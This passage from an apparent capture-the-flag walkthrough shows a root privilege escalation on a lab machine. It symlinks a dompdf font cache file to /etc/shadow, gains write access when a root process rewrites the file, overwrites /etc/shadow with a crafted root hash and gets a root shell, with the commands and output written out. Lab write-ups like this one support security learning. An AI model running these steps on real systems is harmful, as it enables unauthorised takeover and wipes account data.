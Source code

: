 
And now, any auth or user-related operations on the box are dorked. I’ll need
a reset.

#### shadow

The option that works is `/etc/shadow`. I’ll update the link to point to it:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /etc/shadow dompdf_font_family_cache.php
    

After a few minutes, it’s overwritten with the PHP, and the ownership has
changed:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /etc/shadow
    -rw-r----- 1 www-data www-data 2863 Feb 13 21:15 /etc/shadow
    

I’ll generate a password hash using `openssl`:

    
    
    www-data@interface:~$ openssl passwd -6 0xdf0xdf
    $6$b3swpjX7i9uUl2Tt$QgeVADzJcbbszwzBgrdFb2uI6EA8gabZvhPXbIrhWhfVljCqSsmmsalI97DfI3SYUX9SSqOjYo9AvVZZAPwaK0
    

Now I’ll write an entry in the shadow to match the format described
[here](https://linuxize.com/post/etc-shadow-file/):

    
    
    www-data@interface:~$ echo 'root:$6$b3swpjX7i9uUl2Tt$QgeVADzJcbbszwzBgrdFb2uI6EA8gabZvhPXbIrhWhfVljCqSsmmsalI97DfI3SYUX9SSqOjYo9AvVZZAPwaK0:17736:0:99999:7:::' > /etc/shadow
    

It is important to use single quotes on that `echo`, or the `$` will be
evaluated as variables. With this in place, I can `su` as root using the
password “0xdf0xdf”:

    
    
    www-data@interface:~$ su -
    Password: 
    root@interface:~#
    

### Script Analysis

There’s a cleanup script running as root:

    
    
    root@interface:~# crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    */2 * * * * /usr/local/sbin/cleancache.sh
    */5 * * * * /root/clean.sh
    